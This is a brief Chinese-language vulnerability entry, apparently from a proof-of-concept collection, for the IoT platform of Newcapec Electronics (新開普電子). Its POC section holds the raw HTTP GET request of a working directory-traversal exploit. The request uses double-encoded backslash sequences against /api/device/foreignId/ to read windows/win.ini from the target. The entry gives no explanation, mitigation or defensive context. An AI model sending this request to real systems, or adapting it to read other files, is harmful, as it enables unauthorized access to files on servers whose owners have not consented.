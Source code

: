 <languages /> <translate>

漏洞影響
--------

</translate> <translate> 新開普電子股份有限公司 物聯網平台 </translate>

POC
---

    GET /api/device/foreignId//…%255c…%255c…%255c…%255c…%255c…%255c…%255c…%255cwindows/win.ini HTTP/1.1
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,/;q=0.8
    Accept-Encoding: gzip,deflate
    Host: target:8080
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36
    Connection: Keep-alive